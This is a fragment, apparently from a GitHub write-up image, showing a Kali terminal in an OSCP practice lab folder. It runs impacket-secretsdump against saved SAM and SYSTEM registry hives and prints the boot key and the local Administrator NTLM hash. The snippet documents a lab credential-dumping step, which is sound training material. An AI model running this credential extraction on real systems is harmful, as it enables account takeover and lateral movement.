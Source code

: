```bash
┌──(root㉿kali)-[/home/…/Challenges/4_OSCP-A/AD-Machines/Internal]
└─# impacket-secretsdump -sam SAM -system SYSTEM LOCAL                                                                               
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
